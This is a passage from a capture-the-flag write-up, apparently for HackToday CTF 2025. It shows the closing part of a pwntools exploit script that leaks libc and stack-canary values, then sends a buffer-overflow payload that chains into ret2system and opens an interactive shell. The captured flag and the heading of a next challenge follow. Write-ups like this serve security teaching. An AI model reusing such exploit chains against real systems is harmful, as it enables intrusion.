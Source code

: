 ```python
    leak("Libc leak", hex(libc_leak))
    leak("Libc base address", hex(libc.address))
    leak("Next Target", hex(target))

    with log.progress("BOF to ret2system"), context.silent:
        sla("> ", "1 1")
        sla("> ", str(payload).encode())
        sa("> ", p64(canary)*4 + p64(target)[:6])
        sa("> ", b"x")
        debug()
        sa("> ", ret2system() + p64(canary)*8)
    io.interactive()

if __name__ == '__main__':
    exploit()
```

### Flag

`hacktoday{jU5t_A_B1t_0f_fl04Ts_4Nd_P1V0tIn9_15_4ll}`
    
# Pwn - Test

## Introduction 

![alt](../../../img/CTFNational/HackToday_CTF_2025/Test.png)
